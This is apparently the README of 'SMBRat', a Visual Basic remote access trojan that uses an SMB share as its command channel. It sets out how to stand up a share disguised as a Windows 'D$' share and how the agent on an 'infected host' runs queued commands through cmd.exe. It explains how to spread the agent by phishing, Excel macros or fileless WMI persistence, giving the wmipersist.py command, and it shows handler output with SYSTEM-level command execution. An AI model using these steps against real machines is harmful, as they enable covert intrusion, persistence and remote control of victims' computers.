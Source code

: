 # SMBRat
A Windows Remote Administration Tool in Visual Basic


## Ingredients

### Handler

The `handler` needs an SMB Server to work. The `smbserver.py` module from [*Core Security's* `impacket`](https://github.com/coresecurity/impacket) package will do.

Most probably `smbd` would also do the trick, but it hasn't been tested yet.

#### Setting up the SMBServer

A share with name `D$` is needed, to look like a legit Windows host's SMB.

```bash
(impacket) root@Deskjet-4540:/home/unused/Tools/RATs/SMBRat# mkdir Share
(impacket) root@Deskjet-4540:/home/unused/Tools/RATs/SMBRat# smbserver.py -comment "My Share" "D$" Share/
Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### Agent

The `agent` is a *Visual Basic Script* that runs on the infected host and connects to the *SMB Server*. It creates a folder in there named after the host's `hostname` and primary `MAC` address (trying to be *unique* and *informative* at the same time for reporting purposes).
It does **NOT** use a drive letter to *Mount* the Share, just uses `UNC paths` to directly read remote files.
It also injects the `UNC path` into the `%PATH%` variable of its execution environment.

#### Agent's Execution

The `agent` is configured to **run once**. **Statelessly**.
It looks for a file named `exec.dat` in the folder it created in the *SMB Share*
If it finds the file, it **reads its content** and executes it as a command with `cmd.exe /c <command>` like a *semi-interactive shell*.
The command's response is stored in `output.dat` (next to `exec.dat`). 
Then deletes the `exec.dat` file.



## Infection Scheme

A *While loop* can be added to the `agent.vbs`  file's beginning, with a delay statement of multiple seconds (10 secs is ideal), and it will be able to infect windows hosts by *double clicking* / *phishing* / *excel macros* / etc...

Yet, if a Windows host has *RPC* enabled, it is possible to install the *VBS* file as *fileless malware* through `WMI` and the fabulous `impacket` package with a command like:
```bash
(impacket) unused@Deskjet-4540:~/Tools/RATs/SMBRat$ wmipersist.py '<username>:<password>@<hostname/ipaddress>' install -vbs agent.vbs -name smbrat -timer 10
```  

It is also possible to utilize the `WMI` tool by local access to install the `agent.vbs`


## Directory Structure in the *SMB Share*

The Directory shared through SMB (named `Share` in this example) will grow using the below structure:
```
	Share/
	|
	\--Project1/
	|	|
	|	\--<Hostname1>-<MAC_ADDRESS1>/
	|	\--<Hostname2>-<MAC_ADDRESS2>/
	|
	\--Project2/
		|
		\--<Hostname3>-<MAC_ADDRESS3>/
	[...]
```

#### Never create folders manually in the Shared Folder



## Barebone Usage

~~At time of writing, no `Handler` shell is implemented,~~ so usage can be done by just using a command like `watch` to inspect the `output.dat` file:

```bash
$ watch -n0.2 cat Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/output.dat
```
and `echo` to write stuff to the `exec.dat` file:
```bash
$ echo 'whoami /all' > Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/exec.dat
```

## The `handler.py`

The experimental shell works as follows: 
```bash
$ python handler.py Share/
SMBRat> 
# When a new host gets infected:
[+] Agent "DESKTOP-EG4OE7J" (00:0C:29:2B:9F:AF) just checked in for Project: "projectName"

SMBRat> execall whoami /user

[>] Sending 'whoami /user' to "projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF" ...
		
SMBRat> 
[<] Response from 'projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF': 


USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

^^^^^^^^^^^^^^^^^^^^ projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF ^^^^^^^^^^^^^^^^^^^^
SMBRat> 
				
```

## Outstanding Pitfalls

### SMBv1 is **Not Encrypted** :

```bash
# tcpdump -i eth0 -A
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

[...]

15:25:06.695502 IP Deskjet-4540.microsoft-ds > 172.16.47.129.3128: Flags [P.], seq 2876:2971, ack 4791, win 2110, length 95 SMB PACKET: SMBreadX (REPLY)

E...,E@.@.V.../.../....8
.&Mi~.6P..>.......[.SMB........................
.@............ .;........... .net localgroup "administrators"

[...]

15:25:06.702916 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 4917:5111, ack 3097, win 2052, length 194 SMB PACKET: SMBtrans2 (REQUEST)

E...E.@......./.../..8..i~..
.'*P....b.......SMB2......................

.F..z.....(...........z.D.........}..........\.p.r.o.j.e.c.t.N.a.m.e.\.D.E.S.K.T.O.P.-.E.G.4.O.E.7.J.-.0.0.:.0.C.:.2.9.:.2.B.:.9.F.:.A.F.\.o.u.t.p.u.t...d.a.t...

[...]

15:25:06.751372 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 6049:6393, ack 3748, win 2050, length 344 SMB PACKET: SMBwrite (REQUEST)

E...E.@....L../.../..8..i~. 
.).P....*.....T.SMB........................
.T....$.......'..$.Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Admin
Administrator
defaultuser0
The command completed successfully.

[...]

```

The traffic (file *contents* and *paths*) are tranfered in plaintext if *SMBv1 Server* is used (e.g `impacket` 's `smbserver.py`).

* An encryption/obfuscation layer would totally solve this one!

### The whole Share is *READ/WRITE* to Everyone:

All Agents can modify files stored in the **Whole Share**. Meaning they can modify the `exec.dat` of other Agents...
An `smbmap` will shed light:
```bash
$ smbmap -H 172.16.47.189
[+] Finding open SMB ports....
[+] User SMB session establishd on 172.16.47.189...
[+] IP: 172.16.47.189:445	Name: Deskjet-4540                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	D$                                                	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\D$\SVNRmxBFAO, plreae remove manually
	IPC$                                              	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\IPC$\SVNRmxBFAO, plreae remove manually
```
#### Pay attention to the lack of `-u` and `-p` parameters of `smbmap`.
This is a *NULL session* (like FTP anonymous login). **EVERYONE can change the SHARE Files** and get *Remote Code Execution* on all infected machines.

* Better fire up some `iptables` here...
